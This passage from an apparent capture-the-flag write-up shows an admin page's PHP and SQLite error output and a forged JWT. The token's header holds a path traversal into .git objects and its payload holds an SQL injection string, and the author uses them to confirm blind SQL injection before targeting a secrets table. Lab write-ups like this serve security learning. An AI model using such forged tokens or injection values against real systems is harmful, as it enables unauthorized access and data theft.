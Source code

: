 ```html
     </li>
           <li class="nav-item active">
       <a class="nav-link" href="/admin.php">My posts</a>
     </li>
         </ul>
         <ul class="navbar-nav mr-auto mt-2 mt-lg-0">
     <li class="nav-item">
       <a class="nav-link disabled" href="#" tabindex="-1" aria-disabled="true">Welcome Admin</a>
     </li>
       <li class="nav-item active">
         <a class="nav-link" href="logout.php">Logout</a>
       </li>
     </ul>
     </div>
</nav>
<div class="container">
<b>Notice</b>:  Trying to access array offset on value of type bool in 
<br /><b>/var/www/html/admin.php</b> on line <b>9</b><br />
<br />
<b>Warning</b>:  SQLite3::prepare(): Unable to prepare statement: 1, near &quot;order&quot;: syntax error in <b>/var/www/html/inc/db.php</b> on line <b>8</b><br />
<br />
<b>Fatal error</b>:  Uncaught Error: Call to a member function execute() on bool in /var/www/html/inc/db.php:15
Stack trace:
#0 /var/www/html/admin.php(9): db_query()
#1 {main}
 thrown in <b>/var/www/html/inc/db.php</b> on line <b>15</b><br />
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzM4NCIsImtpZCI6Ii4uLy5naXQvb2JqZWN0cy9iMC9lMjdmNmFkZmY1NGM2NzdkMzE4MjVlZGNkNzViYjZkMGU4NzYzZSJ9.eyJzdWIiOiJhZG1pbicgQU5EIDE9MiAtLSIsIm5hbWUiOiJBZG1pbiIsImFkbWluIjp0cnVlfQ.Pjy6XNk0hag_g4DOO1pF1PzG1rxA2PZaxsQ5Y2VDbib9bPw4dh2zBylvffZWhjKZ
```

It did return 200 status code which means that auth succeeded with that error Stack trace, which concludes this is blind sql injection, but I had to modify that script for better error handling.<br> 
Now it was pretty much time to start enumerating database and search for that flag, luckily I had <code>/data/create.sql</code>: 

```sql
CREATE TABLE users (
 id integer primary key autoincrement,
 username varchar(30),
 name varchar(255),
 password varchar(255)
);

CREATE TABLE secrets (
 id integer primary key autoincrement,
 key varchar(30),
 value varchar(255)
);

CREATE TABLE posts (
 id integer primary key autoincrement,
 user_id integer,
 created_at date,
 title varchar(255),
 content text,
 foreign key (user_id) references user(id)
);
```
That might speed up the process. My first target was secrets, I’ve started off with checking the value of secret with id of 1. 
